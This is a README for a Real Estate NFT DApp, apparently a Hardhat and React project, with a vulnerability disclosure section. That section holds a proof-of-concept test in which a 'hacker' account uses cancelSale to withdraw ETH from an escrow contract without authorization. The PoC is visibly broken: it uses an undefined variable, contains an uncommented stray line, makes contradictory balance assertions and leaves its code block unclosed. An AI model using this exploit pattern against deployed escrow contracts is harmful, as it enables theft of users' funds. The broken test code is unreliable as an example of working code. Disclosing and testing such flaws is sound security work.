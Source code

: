 # Real Estate NFT DApp

## Technology Stack & Tools

- Solidity (Writing Smart Contracts & Tests)
- Javascript (React & Testing)
- [Hardhat](https://hardhat.org/) (Development Framework)
- [Ethers.js](https://docs.ethers.io/v5/) (Blockchain Interaction)
- [React.js](https://reactjs.org/) (Frontend Framework)

## Requirements For Initial Setup
- Install [NodeJS](https://nodejs.org/en/)

## Setting Up
### 1. Clone/Download the Repository

### 2. Install Dependencies:
`$ npm install`

### 3. Run tests
`$ npx hardhat test`

### 4. Start Hardhat node
`$ npx hardhat node`

### 5. Run deployment script
In a separate terminal execute:
`$ npx hardhat run ./scripts/deploy.js --network localhost`

### 7. Start frontend
`$ npm run start`

## Mishandling of ETH Vulnerability

### Summary
This vulnerability led to unauthorized ETH withdrawals during sale cancellations, as shown in the provided proof of concept (POC).

<details>
<summary>Click to view the Proof of Concept</summary>

```javascript
describe("ETH Mishandling in Cancel Sale", () => {
    describe("Failure", async () => {
        it("Check for deposit earnest", async () => {
            const nftId_1 = 1
            const nftId_2 = 2

            // Deposit for NFT 1
            const depositTx = await escrow.connect(buyer).depositEarnest(1, {
                value: tokens(5)
            })
            await depositTx.wait()

            // Escrow balance before
            const escrowBalanceBefore = await escrow.getBalance()

            // Hacker balance before
            const hackerBalanceBefore = await hre.ethers.provider.getBalance(
                hacker.address)

            // Inspector passes inspection for NFT 1
            const inspectionTx1 = await escrow.connect(inspector).updateInspectionStatus(1, true)
            await inspectionTx1.wait()

            // Approve sale by buyer, seller and lender for NFT 1
            const approveTx1 = await escrow.connect(buyer).approveSale(1)
            await approveTx1.wait()

            const approveTx2 = await escrow.connect(seller).approveSale(1)
            await approveTx2.wait()

            const approveTx3 = await escrow.connect(lender).approveSale(1)
            await approveTx3.wait()

            // Lender send ETH to the contract for NFT 1
            const inspectionTx2 = await lender.sendTransaction({
                to: escrow.address,
                value: tokens(5)
                })

            // Mint NFT 2
            const mintTx2 = await realEstate.connect(seller).mint("https://ipfs.io/ipfs/QmTudSYeM7mz3PkYEWXWqPjomRPHogcMFSq7XAvsvsgAPS")
            await mintTx2.wait()

            // Approve NFT 2 for Escrow
            const approveTx = await realEstate.connect(seller).approve(escrow.address, 2);
            await approveTx.wait()

            // List NFT 2
            const listTransaction2 = await escrow.connect(seller).list(
                2, hacker.address, 
                tokens(15), 
                tokens(10))
            await listTransaction2.wait()

            // Hacker cancel sale for NFT 2
            const cancelTx = await escrow.connect(hacker).cancelSale(2);
            await cancelTx.wait()

            // Check Escrow balance after cancel sale   
            expect(escrowBalanceAfter).to.equal(escrowBalanceBefore);

            // Hacker balance after
            const hackerBalanceAfter = await hre.ethers.provider.getBalance(hacker.address)
            expect(hackerBalanceAfter).to.be.greaterThan(hackerBalanceBefore)

            Finalize sale for NFT 1
            await expect(escrow.connect(seller).finalizeSale(1))
        })
    })
})
</details>

